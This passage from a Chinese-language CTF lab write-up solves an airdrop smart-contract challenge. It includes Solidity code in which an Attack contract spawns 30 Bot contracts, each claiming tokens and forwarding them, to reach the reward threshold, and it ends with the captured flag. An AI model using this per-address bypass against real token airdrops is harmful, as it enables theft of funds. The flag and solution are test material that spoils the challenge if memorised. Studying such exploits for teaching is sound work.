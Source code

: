 代码实现：

- 创建 Bot 合约，每次创建一个新的 Bot 合约实例，通过它的 execute 函数领取代币。
- 创建 Attack 合约：
    - 调用 profit()，初始化 Attack 合约地址的代币余额。
    - 动态创建 30 个 Bot 子合约：每个子合约负责领取 20 个代币并将其转移到 Attack 合约地址。
    - 调用 getFlag()：当 Attack 合约地址的代币余额达到 500 时，触发奖励。

```sol
contract Bot {
    function execute(address attack, AirDrop airdrop) public {
        airdrop.profit();
        airdrop.transfer(attack, 20);
    }
}

contract Attack {
    function attack(AirDrop airdrop) public {
        airdrop.profit();
        for (uint i = 0; i < 30; i++) {
            Bot bot = new Bot();
            bot.execute(address(this), airdrop);
        }
        airdrop.getFlag();
    }
}
```

链上测试通过，得到 flag: `ssec2024{nOw_YoU_KnOw_hoW_7O_A1RDrOP_HuNTIn9|7400b2ad}`

![alt text](img/3220103784-林子昕-lab04/image-8.png)
